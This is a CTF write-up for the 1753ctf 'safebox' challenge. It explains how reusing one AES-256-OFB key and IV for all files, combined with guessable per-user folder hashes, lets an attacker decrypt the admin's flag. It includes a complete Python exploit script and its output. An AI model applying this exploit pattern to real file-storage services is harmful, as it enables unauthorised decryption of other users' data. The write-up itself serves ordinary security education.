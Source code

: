 ```yaml
---
title: safebox writeup
date: 2025-04-12
description: "writeup of the safebox challenge from 1753ctf"
tags: ["ctf","web","crypto"]
---
```


# Challenge description

Your files. Encrypted at rest. Premium accounts available soon. // careful, this app is resetting every 15 mintutes

source code:

[safebox](/files/safebox/safebox_src_index.js)


# Solution

we are presented with a site that allows us to register and upload files that will be encrypted (also we can't download them directly by pressing button as it is for 'premium' users only).

files are stored with per-user folders and ecrypted with AES-256-OFB mode. flag is stored in admin's directory

directories names are hashes of usernames, so admin folder is `sha256("admin")`

critical vulnerability is in the encryption implementation:

```javascript
    const key = Buffer.from(process.env.ENCRYPTION_KEY, 'hex');
    const iv = Buffer.from(process.env.ENCRYPTION_IV, 'hex');
```
```javascript
function encrypt(buffer, key, iv) {
    const cipher = crypto.createCipheriv('aes-256-ofb', key, iv);
    let encrypted = cipher.update(buffer);
    encrypted = Buffer.concat([encrypted, cipher.final()]);
    return encrypted;
}
```
the same key and iv are used for encrypting all files accros all users. this means that the same keystream is reused as OFB mode generates it without ingering with the plaintext
https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Output_feedback_(OFB)

xor operation is reversable so:

```
A ⊕ KEY = A_ENC -> KEY = A ⊕ A_ENC
B ⊕ KEY = B_ENC -> KEY = B ⊕ B_ENC
                    ^ these can be transformed to:  
A ⊕ A_ENC = B ⊕ B_ENC
A ⊕ A_ENC ⊕ B_ENC = B
```

so xor-ing the two encrypted files with known plaintext will give us the plaintext of the other file.

solve script in python:

```python
import requests
import hashlib
import json
import base64

BASE_URL = "https://safebox-1bbcbadc1e5d.1753ctf.com"

def register_user(username, password):
    response = requests.post(
        f"{BASE_URL}/api/register",
        json={"username": username, "password": password}
    )
    if response.status_code == 200:
        return response.json()
    else:
        raise Exception(f"registration failed: {response.text}")

def upload_known_file(token, filename, content):
    b64content = base64.b64encode(content).decode('utf-8')
    response = requests.post(
        f"{BASE_URL}/api/upload",
        headers={"x-token": token},
        json={"fileName": filename, "b64file": b64content}
    )
    if response.status_code != 200:
        raise Exception(f"upload failed: {response.text}")

def get_folder_hash(username):
    return hashlib.sha256(username.encode()).hexdigest()

def download_file(token, folder, filename):
    response = requests.get(
        f"{BASE_URL}/files/{folder}/{filename}",
        headers={"x-token": token}
    )
    if response.status_code == 200:
        return response.content
    else:
        raise Exception(f"download failed: {response.status_code}")

def xor_bytes(a, b):
    return bytes(x ^ y for x, y in zip(a, b))

def main():
    # to avoid collisions
    username = "hacker_" + hashlib.md5(str(hash(str)).encode()).hexdigest()[:8]
    password = "hackpass123"
    
    print(f"[+] registering user: {username}")
    user_data = register_user(username, password)
    token = user_data["token"]
    print(f"[+] got token: {token[:10]}...")
    
    #file with known content (all zeros)
    known_content = bytes([0] * 1000)
    filename = "known_file.txt"
    
    print("[+] uploading file with known content")
    upload_known_file(token, filename, known_content)
    
    #folder hash for current user and admin
    user_folder = get_folder_hash(username)
    admin_folder = get_folder_hash("admin")
    print(f"[+] user folder: {user_folder[:10]}...")
    print(f"[+] admin folder: {admin_folder[:10]}...")
    
    #download both encrypted files
    print("[+] downloading our encrypted file")
    encrypted_known = download_file(token, user_folder, filename)
    
    print("[+] downloading encrypted flag")
    encrypted_flag = download_file(token, admin_folder, "flag.txt")
    
    #XOR operations to recover the flag
    # 1. XOR the two encrypted files (cancels out the keystream)
    # 2. XOR with known content to get the flag
    xor_of_encrypted_files = xor_bytes(encrypted_flag, encrypted_known)
    flag_bytes = xor_bytes(xor_of_encrypted_files, known_content)
    
    print("[/] brrr hacking  ")
    #decode as UTF-8
    try:
        flag = flag_bytes.decode('utf-8').strip()
        print(f"[+] decrypted content of flag.txt: {flag}")
    except UnicodeDecodeError:
        print("[!] could not decode flag as UTF-8, printing as hex")
        print(f"[+] flag (hex): {flag_bytes.hex()}")

if __name__ == "__main__":
    main()
```

output:

```bash
[+] registering user: hacker_98fc1f6c
[+] got token: a1f60df5ff...
[+] uploading file with known content
[+] user folder: 221d40be95...
[+] admin folder: 8c6976e5b5...
[+] downloading our encrypted file
[+] downloading encrypted flag
[/] brrr hacking
[+] decrypted content of flag.txt: Well, good this file is encrypted, cause in any other
case someone could just come here and steal my valuable
flag. The flag is 1753c{encrypt3d_but_n0t_s0000_s4fe_b0x}. Cool, huh?

Yes it is!

Sincerely yours,
Mr. Admin
```




